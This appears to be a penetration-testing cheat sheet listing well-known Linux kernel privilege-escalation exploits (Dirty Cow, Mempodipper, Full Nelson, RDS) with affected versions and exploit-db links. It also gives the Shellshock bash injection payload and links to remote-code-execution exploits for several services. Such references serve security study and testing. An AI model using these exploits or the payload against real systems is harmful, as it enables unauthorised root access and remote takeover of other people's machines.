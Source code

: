 # Common Exploits

## Kernel exploits

### RDS exploit

Local privilege escalation, works on kernel version <= 2.6.36-rc8

#### Source code

```
https://www.exploit-db.com/exploits/15285/
```

### Mempodipper

Local privilege escalation on Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

```
https://www.exploit-db.com/exploits/18411    #Gentoo/Ubuntu x86/64
https://www.exploit-db.com/exploits/35161    #Generic x86/64
```

### Full Nelson

Local privilege escalation on Linux Kernel <= 2.6.3 (RedHat / Ubuntu 10.04)

```
https://www.exploit-db.com/exploits/15704/
```

### Dirty Cow

Local privilege escalation on Linux Kernel between 2.6.22  and 3.19.0-73.8

```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

https://www.exploit-db.com/exploits/40611    #file write exploit
https://www.exploit-db.com/exploits/40616    #SUID method
https://www.exploit-db.com/exploits/40839    #/etc/passwd overwrite method
```

## Remote execution exploits

### Shellshock

#### Bash

```
() { :;}; /bin/bash -c <command>
```

#### RCE exploits

```
https://www.exploit-db.com/exploits/34879 #OpenVPN 2.2.29
https://www.exploit-db.com/exploits/34896 #Postfix SMTP 4.2.x < 4.2.48
https://www.exploit-db.com/exploits/34900 #Apache CGI
https://www.exploit-db.com/exploits/35146 #PHP < 5.6.2
https://www.exploit-db.com/exploits/36933 #dhclient 4.1
```

###


